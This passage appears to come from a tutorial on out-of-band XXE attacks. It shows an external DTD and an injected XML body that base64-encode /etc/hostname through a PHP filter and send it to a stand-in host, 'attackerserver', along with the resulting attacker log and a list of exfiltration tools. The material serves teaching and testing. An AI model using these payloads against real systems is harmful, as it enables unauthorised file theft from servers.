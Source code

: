 The previous techniques of reading files depends on the immediate response. This type of XXE is known as in-band XXE. Further complications arise when the server does not reflect the content directly in the immediate response. This type of scenario requires Out-of-Band XXE techniques, where the content are sent over to the attacker via other channels such as DNS / HTTP / FTP / etc.

**Stealing all types of files**

With PHP wrappers to encode file contents to base64, we can steal all types of file even when the content is not reflected in the immediate response. It is necessary to use an external DTD file to prevent the internal subset problem mentioned earlier.

oob.dtd:

```dtd
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attackerserver/dtd.xml?%data;'>">
%eval;
```

Injected definition and body;

```xml
<!DOCTYPE r [
 <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
 <!ENTITY % oob SYSTEM "http://attackerserver/oob.dtd">
 %oob;
]> 
<root> &exfil; </root>
```

Attacker's HTTP log:

```
172.21.0.4 - - [13/May/2020 00:00:50] "GET /oob.dtd HTTP/1.0" 200 -
172.21.0.4 - - [13/May/2020 00:00:50] code 404, message File not found
172.21.0.4 - - [13/May/2020 00:00:50] "GET /dtd.xml?NDFkZDJlOWZkYjA4Cg== HTTP/1.0" 404 -
```

The content of `/etc/hostname` ex-filtrated in this case was `41dd2e9fdb08` .

**OOB illegal characters**

By using protocols like HTTP, an additional layer of protocol has their own illegal characters. For example, HTTP relies on "\r\n" as delimiter to distinguish HTTP headers.

As such, non-encoded file content with characters like newlines cannot be successfully ex-filtrated without any form of encoding to remove such characters. As such, the impact of OOB data ex-filtration for non-PHP is often limited.

## Great Works by Others

### Useful Tools

1. https://www.xxe.sh/: A convenient website to enter your domain name and generates a OOB XXE PoC.
2. [staaldraad/xxeserv](https://github.com/staaldraad/xxeserv): Simplifies setting up of FTP Server to receive OOB XXE via FTP. See usage [here](https://staaldraad.github.io/2016/12/11/xxeftp/).
3. [RequestBins](http://requestbin.net/): A convenient website to capture DNS queries / HTTP requests from vulnerable server.
4. [Ngrok](https://ngrok.com/): A tool to generate temporary domain and forward TCP connections to local machine.
